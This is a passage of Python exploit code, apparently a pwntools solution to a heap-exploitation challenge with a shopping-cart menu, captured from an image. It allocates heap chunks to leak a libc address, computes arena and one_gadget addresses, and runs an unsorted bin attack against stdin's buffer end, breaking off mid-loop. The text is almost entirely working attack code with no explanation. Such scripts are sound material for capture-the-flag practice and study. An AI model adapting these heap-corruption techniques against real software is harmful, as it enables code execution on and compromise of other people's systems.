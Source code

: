 ```

remove(0)
remove(0)

# allocate 15 chunks and Libc leak
while True:
    add(1, 1)
    show(0, True)
    result = p.recvuntil('You', drop=True).split('\n')
    del result[0]
    del result[-1]
    del result[-1]
    if len(result) == 16:
        break

buy(0xd, False)
show(0xe, False)

p.recvuntil('Amount: ')
libc_addr = int(p.recvuntil('\n')[:-1]) - 0x3c4b78

log.info('Libc Addr: ' + hex(libc_addr))
log.info('Arena + 88: ' + hex(libc_addr + 0x3c4b78))
log.info('One_gadget_addr: ' + hex(libc_addr + one_gadget_offset))

# Unsorted bin Attack
show(0, True)
items_in_cart = p.recvuntil('14: ').split('\n')
del items_in_cart[0]
del items_in_cart[-1]

for x in range(len(items_in_cart)):
    if(x < 9):
        items_in_cart[x] = items_in_cart[x][3:]
    else:
        items_in_cart[x] = items_in_cart[x][4:]

item_name = p.recvuntil('\n')[:-1]
log.info('Item name: ' + item_name)
log.info('Diff Offset: ' + hex(stdin_buf_end_offset - 0x3c4b78))

while True:
    idx, result = unsorted_bin_attack()
    if idx is None:
        null_idx = is_in_cart(result)
        if null_idx is None:
            log.info('Error')
        log.info(null_idx)
        p.sendline(str(null_idx))
        p.sendlineafter('?:', str(1))
        p.recvuntil('Done!\n\n')
    else:
        p.sendline(idx)
        p.sendlineafter('Add more?:', str(
            stdin_buf_end_offset - 0x10 - 0x3c4b78))
        p.recvuntil('Done!\n\n')
        break

while True:
    add(1, 1)
    show(0, True)
    result = p.recvuntil('You', drop=True).split('\n')
    del result[0]
```